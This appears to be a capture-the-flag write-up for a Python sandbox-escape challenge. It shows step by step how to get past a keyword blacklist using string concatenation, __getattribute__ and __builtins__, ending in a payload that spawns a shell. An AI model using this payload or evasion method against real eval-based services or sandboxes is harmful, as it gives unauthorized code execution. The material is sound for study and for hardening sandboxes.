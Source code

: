# Explanation
ok, so at the first, we had short blacklist, and that was the main function of the __RoadtoShell__ payload


```
blacklist = ['__import__', '__system__', 'sh', 'os']
```

So, at the first, lets focus on the string things, __os__ and __sh__

If u remember, in python, we can just plus the string from

```
__import__('os').system('sh')
```
to
```
__import__('o'+'s').system('s'+'h') 
```

Second, lets fix the **\_\_import\_\_** and **\_\_system\_\_**

so we can change the function using strings, using the built-in function

```
__getattribute__()
```

so, we called __system__ in __os__ library using that syntax

u can see the image below, its just the same

<img src="img/blacklistmodel1-1.png">

so lets next to the, import.

the main problem, where we can get the **\_\_import\_\_** if we just trying this syntax

```
__getattribute__('__import__')
```

so, what is the solution instead of using that syntax?

the solution is

```
__builtins__
```

<img src="img/blacklistmodel1-2.png">

yea, **\_\_import\_\_** is one of the default built-in function, so, we can call that first to take attribute **\_\_import\_\_** 

```
__builtins__.__getattribute__('__import__')
```

dont forget about the string + string, and the final payload is

```
__builtins__.__getattribute__('__imp'+'ort__')('o'+'s').__getattribute__('sys'+'tem')('s'+'h')
```
